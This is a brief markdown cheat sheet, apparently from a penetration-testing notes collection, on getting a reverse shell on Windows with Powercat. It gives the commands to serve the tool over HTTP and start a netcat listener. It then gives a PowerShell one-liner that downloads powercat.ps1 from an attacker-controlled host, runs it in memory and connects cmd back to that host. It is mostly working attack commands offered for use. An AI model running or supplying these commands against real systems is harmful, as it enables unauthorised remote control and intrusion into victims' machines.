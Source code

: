 # Powercat: Reverse Shell

1. Download [Powercat](https://github.com/besimorhino/powercat.git)

        git clone https://github.com/besimorhino/powercat.git
        python -m SimpleHTTPServer 4444

2. Start a listener on attacker machine

        nc -lvp 1234

3. Execute following command on the remote machine to obtain a reverse shell
   
        powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://<ATTACKER_IP_ADDRESS>:4444/powercat.ps1');powercat -c <ATTACKER_IP_ADDRESS> -p 1234 -e cmd"

## References

* https://github.com/besimorhino/powercat.git
* https://www.hackingarticles.in/get-reverse-shell-via-windows-one-liner/
* https://zsahi.wordpress.com/2018/09/17/windows-non-interactive-command-execution-to-interactive-netcat-reverse-shell/
* https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md